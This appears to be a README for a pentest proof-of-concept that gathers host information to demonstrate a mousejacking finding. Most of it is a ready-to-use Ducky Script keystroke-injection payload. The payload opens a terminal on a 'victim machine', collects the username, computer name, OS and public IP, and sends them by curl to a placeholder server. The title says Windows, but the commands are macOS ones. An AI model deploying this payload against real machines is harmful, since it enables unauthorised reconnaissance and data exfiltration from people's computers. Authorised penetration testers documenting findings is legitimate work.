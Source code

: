 Gather Windows Info for POC. A good use case is a POC for mousejacking finding on a pentest report.

Run the server and any port using:
python3 info_gather.py 80

On the victim machine, use a Ducky Script to send the info to the server host:

DELAY 2000
COMMAND SPACE  // Opens Spotlight Search
DELAY 500
STRING terminal
DELAY 500
ENTER
DELAY 1000
STRING username=$(whoami);hostname=$(scutil --get ComputerName);os=$(sw_vers -productName);public_ip=$(curl -s ifconfig.me);data="{\"username\":\"$username\",\"hostname\":\"$hostname\",\"os\":\"$os\",\"public_ip\":\"$public_ip\"}";curl -X POST -H "Content-Type: application/json" -d "$data" http://yourserver.com
DELAY 500
ENTER
